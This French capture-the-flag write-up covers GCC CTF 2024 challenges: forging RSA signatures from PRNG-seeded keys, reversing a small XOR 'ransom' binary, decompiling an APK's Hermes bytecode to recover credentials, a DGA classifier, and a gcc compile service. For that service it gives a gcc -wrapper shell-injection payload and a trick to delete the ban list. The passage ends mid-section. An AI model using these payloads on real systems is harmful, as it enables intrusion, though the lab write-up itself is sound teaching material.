## Introduction


Tous les challenges et solutions sont disponibles ici: https://github.com/GCC-ENSIBS/GCC-CTF-2024 !


Voici quelques notes sur certains challenges résolus ou étudiés par mon équipe. 
Nous n'étions pas particulièrement disponibles, et séchions sur certaines catégories (osint,web3,pwn), cependant les défis étaient originaux , de qualité et comprenaient souvent plusieurs solutions non prévues par les auteurs.

Finalement, nous avons pu obtenir un classement respectable (~15%) en nous focalisant sur nos domaines de préférences.

## Crypto

### GCC News

#### Signature

Le but de ce challenge est d'accéder à la page `/news` du site une fois connecté.

Une fois notre utilisateur `a` crée, nous disposons d'un token et d'un message passés en `GET` pour cette route:

`http://worker04.gcc-ctf.com:14307/news?token=9[...]03&message=eydhJzogW0ZhbHNlXX0%3D`, avec 

```
echo -ne eydhJzogW0ZhbHNlXX0= | base64 -d
{'a': [False]}base64: entrée incorrecte
```

Le message étant formatté en JSON `{'utilisateur': [False]}`, on se doute qu'un parseur vérifiera si la valeur associée au nom utilisateur vaut True mais il faut générer un token valide pour ce message.

Regardons le code source d'un peu plus près:

```py
@app.route('/news', methods=['GET'])
def news():
    signature = request.args.get('token')
    message = base64.b64decode(request.args.get('message')).decode()
    
    message = json.loads(message.replace("'", '"').replace("False", "false").replace("True", "true"))
    
    username = list(message.keys())[0]
    subscribe = list(message.values())[0][0]

    if signature:
        is_sign = verify_signature(str(message), public_key_users[username], signature)
        if is_sign:
            return render_template('news.html', username=username, subscribe=subscribe)

    return redirect(url_for('login', reason='unauthorized'))

```

Notre token est en fait une **signature RSA**, dont les clés publiques et privées sont générées à partir du message, que l'on contrôle et qui semble unique (pas de SGBD pour stocker les tokens) ...
Pour rappel, en notant (n,e) la clé publique, (n,d) la clé privée et s la signature:

$$s = m^{d}[n]$$

C'est exactement le travail de `verify_signature`. Mais comment fonctionne `generate_key(username)`?

#### Utilisation d'un PRNG

Le module n est en fait crée à partir d'une décomposition en facteurs premiers, puis l'indicatrice d'Euler ainsi que la clé privée en sont déduites.
Comme on s'en doutait, chaque paire de clés ne dépendant que du paramètre `username`, la faille réside dans la génération de ces facteurs.
En effet le module `random` est utilisé comme **PRNG** pour initialiser la seed (graine) générant ces facteurs:

```py
	s = bytes_to_long(username.encode()) # username controlled
	random.seed(s) # predictable seed

	while math.gcd(phi,e) != 1:
		n = 1
		factors = []

		while length(n) < 2048:
			temp_n = random.getrandbits(48) # deterministic factors
			if isPrime(temp_n):
				n *= temp_n
				factors.append(temp_n)
		phi = 1
		for f in factors:
			phi *= (f - 1)
```

Pour plus d'information sur **PRNG-RSA**, voir https://www.0x0ff.info/2014/prng-et-generateur-de-cle/ .
Grossièrement, il suffira de réutiliser la génération de clés qui nous sont fournies:

```py
from app import *

(n,e), (n,d) = generate_key('admin')
message = str({'admin': [True]});print(message)
hashed_message = hash_string_sha256(message)
signature = pow(hashed_message,d,n); print(signature)
```

Il ne reste plus qu'à accéder à `/news` avec ces paramètres : `http://worker04.gcc-ctf.com:14307/news?token=[signature]03&message=[message]`



## Reverse

### Ransom

D'après l'énonce, nous disposons d'un binaire `ransom` étrange, chiffrant un certain fichier en `secret.txt.enc` sur une machine Debian:

```bash
file ransom 
ransom: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

En éxécutant ce binaire, le contenu de `secret.txt`, s'il existe est chiffré dans `secrets.txt.enc`.
Pour s'en apercevoir, il est préférable de débugger le programme avec GDB, ou de tracer les appels systèmes:

```bash
strace ./ransom 
execve("./ransom", ["./ransom"], 0x7ffeffec1480 /* 64 vars */) = 0
[ Process PID=230712 runs in 32 bit mode. ]
strace: WARNING: Proper structure decoding for this personality is not supported, please consider building strace with mpers support enabled.
open("secrets.txt", O_RDONLY)           = -1 ENOENT (Aucun fichier ou dossier de ce nom)
read(-2, 0x804a1a2, 1024)               = -1 EBADF (Mauvais descripteur de fichier)
close(-2)                               = -1 EBADF (Mauvais descripteur de fichier)
uname({sysname="Linux", nodename="night-20b7s2ex01", ...}) = 0
creat("secrets.txt.enc", 0666)          = 3
write(3, "\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0", 18) = 18
close(3)                                = 0
exit(0)                                 = ?
+++ exited with 0 +++
```

Nous avons donc affaire à un **keygen** en assembleur x86 comme l'indique le challenge.
En 32 bits, plusieurs conventions d'appel existent, ici le ret est fait dans `eax` puis le syscall correspondant est effectué avec `int 80`, dans la convention FASTCALL.

Afin de faire un peu d'analyse statique, on peut penser à Ghidra, plutôt efficace pour traiter du C ainsi que diverses architectures (ARM,MIPS) mais seules 2 des 4 fonctions présentes seront décompilées, en plus de noter les syscall avec `swi` (ARM) sans plus de détail.
**Binary Ninja** facilite alors le travail:





En s'armant de documentation (https://x86.syscall.sh/), on comprend que la longue suite de `inc eax` dans la fin du premier bloc correspond au `uname` (syscall `0x7a`=`122`), puis que le mot de passe `secret_content` lu et stocké dans `esi` en `0x0804903c` puis stocké dans `eax` en `0x080490c9` subit une comparaison et un xor:



En affichant la valeur contenue à l'addresse de `data_804a05d`, on se rend compte qu'il s'agit du résultat du `uname` appliqué sur notre machine.



Nous allons donc reverser cet algorithme grâce à cette **clé**, connaissant le format du flag:

```py
import string

def dechiffre_vigenere(texte_chiffre, cle):
        cle_int = [ord(c) for c in cle]
        dechiffre_texte = ""
        
        for i, char in enumerate(texte_chiffre):
                val_char = ord(char)
                val_dechiffre = (val_char - 1) ^ cle_int[i % len(cle)]
                dechiffre_texte += chr(val_dechiffre & 0xFF)
        return dechiffre_texte

msg = '$\'"\x133`*6/[?_\'$8IA\x14'
won = dechiffre_vigenere(msg,"GCC{")[:4]
assert(won == "debi")
key = won + "a"

flag = ""
for c in string.printable:
        r = dechiffre_vigenere(msg,key+c)
        if r.startswith("GCC{") and r.endswith("}"):
                flag+=r
print(flag)
```

ou, en devinant la clé, d'après l'énoncé et notre analyse sur le hostname:

```py
from pwn import xor

key = b"debian"

min_1_secrets = [] 
with open("secrets.txt.enc", "rb") as secrets_file:
    secrets = secrets_file.read()
    for c in secrets:
        min_1_secrets.append(c - 1)

print(xor(min_1_secrets, key))
```

### GCC Chat 1

#### Analyse statique

On dispose d'un fichier `GCC_Chat.apk`. Étudions son conde source avec **JADX**.

Dans, `AndroidManifest.xml` on constate que `MainActivity` est directement lancée avec l'intent `LAUNCHER`.

```xml
<activity android:theme="@style/Theme.App.SplashScreen" android:name="com.aloxos.gccchat.MainActivity" android:exported="true" android:launchMode="singleTask" android:screenOrientation="portrait" android:configChanges="screenSize|uiMode|screenLayout|orientation|keyboardHidden|keyboard" android:windowSoftInputMode="adjustResize">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="com.aloxos.gccchat"/>
    </intent-filter>
</activity>
```

On repère également d'autres classes associées à `React` et `Expo`. 
On clique alors sur le `MainActivity` qui hérite de la classe abstraite `ReactActivity`:




En effectuant `Find Usage(x)` sur `onCreate`, on remarque en effet une définition de `Bundle()` dans `ComponentActivity`:
D'autre part on pourrait remarquer l'import de `android.os.Bundle` , également présent dans le bytecode Kotlin.
Beaucoup de bibliothèques dynamiques sont présentes , à ce stade on peut lancer l'application dans **Android Studio** 



On peut aussi chercher quelques strings relatives à l'erreur de connection dans:

- ressources/ressources.arsc/res/values/strings.xml
- ressources/res/layout


Ce qui n'est pas concluant. On peut aussi perdre beaucoup de temps à inspecter le code les bibliothèques dynamiques dans **Ghidra**, mais cela ne mène à rien.

#### Reverse du bytecode Hermes

Si on n'avait pas prêté attention au `Bundle`, on peut alors effectuer un grep dans les ressources statiques:

```bash
grep -r "Wrong username"
grep: resources/assets/index.android.bundle : fichiers binaires correspondent
```

Intéressant:

```bash
file resources/assets/index.android.bundle
resources/assets/index.android.bundle: Hermes JavaScript bytecode, version 96
```

Avec google, on tombe rapidement sur l'outil [hbctool](https://github.com/bongtrop/hbctool), qui doit être patché pour supporter la version du bytecode:

```
hbctool disasm index.android.bundle .
[*] Disassemble 'index.android.bundle' to '.' path
Traceback (most recent call last):
  File "/home/.local/bin/hbctool", line 8, in <module>
    sys.exit(main())
             ^^^^^^
  File "/home/.local/lib/python3.11/site-packages/hbctool/__init__.py", line 61, in main
    disasm(args['<HBC_FILE>'], args['<HASM_PATH>'])
  File "/home/night/.local/lib/python3.11/site-packages/hbctool/__init__.py", line 33, in disasm
    hbco = hbc.load(f)
           ^^^^^^^^^^^
  File "/home/.local/lib/python3.11/site-packages/hbctool/hbc/__init__.py", line 29, in load
    assert version in HBC, f"The HBC version ({version}) is not supported."
           ^^^^^^^^^^^^^^
AssertionError: The HBC version (96) is not supported.
```

Après coup, on aurait pu utiliser [hermes-dec](https://github.com/P1sec/hermes-dec):

```bash
hbc-decompiler index.android.bundle | less
#/Wrong username
```

Qui permet de produire un assembleur de la fonction de Login:

```asm
            r13 = function() { // Original name: handleLogin, environment: r13
                _fun6460: for(var _fun6460_ip = 0; ; ) switch(_fun6460_ip) {
case 0:
                    r2 = _closure2_slot1;
                    r1 = 'GCC_Staff';
                    if(!(r2 === r1)) { _fun6460_ip = 27; continue _fun6460 }
case 15:
                    r2 = _closure2_slot4;
                    r1 = '011efea0cac926232add733f86e3d9f6ab53c237be9e40f9e6a2e255ba33abc3';
                    if(!(r2 !== r1)) { _fun6460_ip = 48; continue _fun6460 }
case 27:
                    r1 = global;
                    r3 = r1.alert;
                    r2 = undefined;
                    r1 = 'Wrong username or password';
                    r1 = r3.bind(r2)(r1);
                    _fun6460_ip = 67; continue _fun6460;
case 48:
                    r2 = _closure2_slot0;
                    r1 = r2.navigate;
                    r0 = 'Main';
                    r0 = r1.bind(r2)(r0);
case 67:
                    r0 = undefined;
                    return r0;
                }
            };
```

Les identifiants sont donc `GCC_Staff` et `P4ssw0rd`, ce qui permet de valider la première partie.



## Misc

### DGA

Le nom du challenge faisait référence aux algorithmes de **génération de noms de domaines**, ayant souvent pour but de cacher la communication entre une machine infectée par un logiciel Command & Control et le serveur de l'attaquant.

Ici nous disposons d'une liste d'url valides et d'une liste malveillante afin de pouvoir entraîner un modèle devant classifier  en temps réel avec un taux de réussite de plus de 85%, via un service TCP.

Un collègue ayant résolu ce challenge, je vous propose un writeup qualitatif d'un joueur du CTF pour plus de détails https://nathan-out.github.io).

Voici donc une forme de notre modèle:

```python
import numpy as np
import pandas as pd
from pandas import DataFrame
from sklearn.model_selection import train_test_split
from sklearn.tree import DecisionTreeClassifier
from sklearn.metrics import accuracy_score


legit_dataframe = pd.read_csv("dataset_legit.txt", header=0)
legit_dataframe['class'] = 'legit'
X = all_domains[['length', 'entropy', 'legit_websites_tfidf', 'eng_word_tfidf']]
y = np.array(all_domains['class'].tolist())

X_train, X_test, y_train, y_test = train_test_split(X, y, test_size=0.2) #20% pour test, 80% pour entraînement

model = DecisionTreeClassifier()
model.fit(X_train, y_train) # entraînement avec les données d'entraînement
predictions = model.predict(X_test) # prédiction sur les données de test
accuracy = accuracy_score(y_test, predictions) # calcul de la précision par rapport au prédictions
print("Exactitude (Accuracy) :", accuracy)
```

Pour optimiser la détection, on peut supprimer de notre liste les prédictions extrêmes:

```python
def outlier_thresholds(dataframe, col_name, q1=0.20, q3=0.80):
    quartile1 = dataframe[col_name].quantile(q1)
    quartile3 = dataframe[col_name].quantile(q3)
    interquantile_range = quartile3 - quartile1
    up_limit = quartile3 + 1.5 * interquantile_range
    low_limit = quartile1 - 1.5 * interquantile_range
    return low_limit, up_limit


def remove_outlier(dataframe, col_name):
    low_limit, up_limit = outlier_thresholds(dataframe, col_name)
    df_without_outliers = dataframe[~((dataframe[col_name] <= low_limit) | (dataframe[col_name] >= up_limit))]
    return df_without_outliers
```

Il ne reste plus qu'à utiliser notre modèle sur le service fourni:



`GCC{M4ch1n3_L34rn1ng_15_v3ry_g00d_4t_d3t3ct1ng_m4l1c10us_4ct1v135}`

Crédits : 

- https://www.elastic.co/fr/blog/supervised-and-unsupervised-machine-learning-for-dga-detection
- https://nathan-out.github.io/posts/ml-x-cybersecurite-analyse-url/
- https://www.kaggle.com/code/omurcantatar/domain-generation-algorithm-dga-detection/notebook

### GCC Online

Le challenge se présente sous la forme d'une page web permettant de compiler un code C en donnant le choix de définir des flags de compilation ainsi que des variables d'environnement. Le binaire généré étant tout à fait classique, il faudra donc opérer à la compilation.

Grâce à un coéquipier, on s'arme rapidement de [GTFOBins](https://gtfobins.github.io/gtfobins/gcc/) afin d'éxécuter des commandes sur le serveur.

En guise de test, on peut penser à lire `/etc/passwd`, ce qui échoue:



Toutefois, en pensant à adapter le premier payload ouvrant un shell, on constate que `-wrapper` n'est pas correctement filtré:



On peut donc effectuer un `pwd` et constater que l'application Flask lancée par `__init__.py` filtre les options à bannir et vérifie que leur syntaxe est correcte:

```
Compilation Error.

Traceback (most recent call last):
  File "/data/app/__init__.py", line 77, in compile_code
    with open(file_name[:-2], 'rb') as binary_file:
         ^^^^^^^^^^^^^^^^^^^^^^^^^^
FileNotFoundError: [Errno 2] No such file or directory: '/tmp/2d345033d3dbcc23bc368b36d46a4ef47b9c41a42f5965fa7d57bd697b60ae44'


 Output:

15e94765365729ab9599cd8ba2a4634aa8bcd9ec3961daf633f611d9f575a48b
app
flag-d66f8a09eb837545e857994ab28a3ed635d5c4c7c7caa710d28111a536b42422.txt
requirements.txt
venv
```

Il ne reste plus qu'à afficher le flag, en fournissant en argument:

```bash
gcc main.c -wrapper /bin/sh,-s,-c,cat${IFS}/data/flag-d66f8a09eb837545e857994ab28a3ed635d5c4c7c7caa710d28111a536b42422.txt
```



**Notes**:

Le fichier `banlist.txt` devait empêcher de fournir les arguments suivants avant sa suppression:

-wrapper

-E

-B

-o

--output

La solution attendue était de lire le code source de `__init__.py`

```bash
-x c /data/app/__init__.py
```

puis de supprimer cette liste avant de réutiliser `-wrapper`:

```bash
-Xlinker -o/data/15e94765365729ab9599cd8ba2a4634aa8bcd9ec3961daf633f611d9f575a48b/banlist.txt
```

## Web

Remarque: Ces challenges étants résolus par un coéquipier, les exploitations ont été refaites avec les `Dockerfile` fournis (voir Introduction)

### Free Cider

#### IDOR



Une feature de réinitialisation du mdp est présente, mais il ne semble pas y avoir d'injections triviales ds ces champs. 
On remarque un cookie de session `flask` qui ne semble pas vulnérable:

```bash
